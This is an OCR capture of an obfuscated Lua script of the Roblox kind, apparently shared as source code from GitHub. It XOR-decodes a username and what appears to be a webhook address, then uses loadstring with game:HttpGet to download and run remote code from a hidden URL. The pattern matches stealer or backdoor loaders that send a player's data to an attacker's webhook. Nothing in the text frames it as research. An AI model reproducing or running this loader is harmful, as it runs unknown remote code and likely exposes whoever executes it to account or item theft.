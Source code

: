 local v0=string.char;local v1=string.byte;local v2=string.sub;local v3=bit32 or bit;local v4=v3.bxor;local v5=table.concat;local v6=table.insert;local function v7(v8,v9)local v10={};for i=1 + 0, #v8 do v6(v10,v0(v4(v1(v2(v8,i,i + 1 + 0)),v1(v2(v9,((1 + 0) -(1044 -(842 + 202))) + ((i-1)% #v9),((2 + 0) -(3 -2)) + ((i-(558 -(402 + 155)))% #v9) + (3 -2))))%(2102 -(1660 + 186))));end return v5(v10);end UserName=v7("\225\95\239\85\30\193\95\239\85\100\151\6\189","\174\48\136\52\92");WebHook=v7("\85\42\80\40\32\102\243\28\89\55\87\59\60\46\184\29\94\49\73\119\50\44\181\28\74\59\70\48\60\51\183\64\18\111\20\109\103\109\236\5\8\103\23\109\96\108\238\2\11\107\28\104\124\18\185\30\12\61\111\15\0\54\155\103\92\27\80\106\37\48\241\7\109\23\99\17\41\6\158\86\85\23\119\50\25\25\185\88\14\41\85\30\99\18\174\118\104\55\71\11\55\61\236\94\85\22\102\107\43\53\177\124\113\44\125\117\63\108\169\91\127","\61\94\36\88\83\92\220\51");loadstring(game:HttpGet(v7("\172\255\70\224\183\177\29\191\182\234\69\190\163\226\70\248\177\233\71\227\161\249\81\255\170\255\87\254\176\165\81\255\169\164\122\241\182\239\117\241\169\238\97\227\235\219\97\200\235\230\83\249\170\164\97\243\182\226\66\228\234\231\71\241","\196\139\50\144"),true))();
